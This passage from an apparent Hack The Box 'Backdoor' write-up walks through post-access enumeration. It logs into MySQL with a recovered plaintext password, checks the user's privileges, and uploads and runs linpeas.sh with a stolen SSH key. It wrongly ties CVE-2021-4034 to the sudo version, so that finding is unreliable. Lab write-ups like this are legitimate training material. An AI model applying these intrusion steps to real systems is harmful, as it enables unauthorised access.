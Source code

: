 ```bash
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password: YES)
```
This path failed, but we can connect as `wordpressuser` and check its privileges:
```bash
❯ mysql -u wordpressuser -p
Password: # MQYBJSaD#DxG6qbm
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 12
Server version: 8.0.27-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> connect wordpress;
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Connection id:    14
Current database: wordpress

mysql> select grantee from information_schema.user_privileges;
+-----------------------------+
| grantee                     |
+-----------------------------+
| 'wordpressuser'@'localhost' |
+-----------------------------+
1 row in set (0.00 sec)

mysql> select privilege_type from information_schema.user_privileges where grantee="'wordpressuser'@'localhost'";
+----------------+
| privilege_type |
+----------------+
| USAGE          |
+----------------+
1 row in set (0.00 sec)
```
This user has only `USAGE` privilege, so this path is not vulnerable.

### linpeas.sh
Upload the script `linpeas.sh` to the target:
```bash
❯ scp -i ~/HTB/Machines/In_Progress/Backdoor/Results/id_rsa ./linpeas.sh user@10.10.11.125:/tmp
user@Backdoor:~$ cd /tmp
user@Backdoor:/tmp$ ./linpeas.sh 
```
The results of linpeas.sh are:
- Sudo version: `1.8.31` -> Vulnerable to [CVE-2021-4034](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034)
- Users with bash: `root` and `user`
